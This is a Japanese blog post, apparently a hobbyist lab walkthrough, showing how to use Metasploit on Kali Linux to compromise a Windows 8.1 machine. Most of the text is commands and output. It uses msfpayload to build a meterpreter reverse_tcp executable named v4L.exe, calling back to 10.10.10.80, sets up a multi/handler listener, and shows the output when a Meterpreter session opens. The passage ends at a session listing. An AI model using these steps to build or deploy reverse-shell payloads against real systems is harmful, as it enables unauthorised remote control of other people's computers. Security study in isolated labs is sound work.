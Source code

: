 msfconsole コマンドでコンソールが起動します。

 
![]({{site.assets_url}}2014-08-09-image6.png)

 
このまま終わるのもつまらないので、何かやってみましょう。教材はこちら↓

 
Create Simple Exploit Using Metasploit to Hack Windows 7 <br />
[http://www.hacking-tutorial.com/hacking-tutorial/create-simple-exploit-using-metasploit-to-hack-windows-7/#sthash.makjzAdL.TEQBARvt.dpbs](http://www.hacking-tutorial.com/hacking-tutorial/create-simple-exploit-using-metasploit-to-hack-windows-7/#sthash.makjzAdL.TEQBARvt.dpbs)

 
同じコマンドを実行するだけです。まずは・・・

 
```
alice@kali:~$ sudo msfpayload windows/meterpreter/reverse_tcp LHOST=10.10.10.80 X > Documents/v4L.exe 
Created by msfpayload (http://www.metasploit.com). 
Payload: windows/meterpreter/reverse_tcp 
Length: 287 
Options: {"LHOST"=>"10.10.10.80"}
```
 
v4L.exe とかいう怪しい実行可能ファイルができました。次に、Kali Linux では被攻撃システムからのアクセスを待機しておきます。

 
```
msf > use exploit/multi/handler 
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp 
payload => windows/meterpreter/reverse_tcp 
msf exploit(handler) > set lhost 10.10.10.80 
lhost => 10.10.10.80 
msf exploit(handler) > exploit -j -z 
[*] Exploit running as background job.

[*] Started reverse handler on 10.10.10.80:4444 
[*] Starting the payload handler... 
msf exploit(handler) >
```
 
先ほど作った怪しげな v4L.exe を適当な Windows マシンにコピーして実行します。バージョンは Windows 8.1 + Update 1 です。

 
![]({{site.assets_url}}2014-08-09-image7.png)

 
v4L.exe を実行すると、Kali Linux 側に信号が来るので、あとは前述したサイトに書かれているコマンドを実行するだけです。

 
```
msf exploit(handler) > exploit -j -z 
[*] Exploit running as background job.

[*] Started reverse handler on 10.10.10.80:4444 
[*] Starting the payload handler... 
msf exploit(handler) > [*] Sending stage (769536 bytes) to 10.10.20.70 
[*] Meterpreter session 1 opened (10.10.10.80:4444 -> 10.10.20.70:49596) at 2014-08-08 22:23:35 -0700 
[deprecated] I18n.enforce_available_locales will default to true in the future. If you really want to skip validation of your locale you can set I18n.enforce_available_locales = false to avoid this message. 
sessions -l

Active sessions 
===============

  Id  Type                   Information                     Connection 
  --  ----                   -----------                     ---------- 
```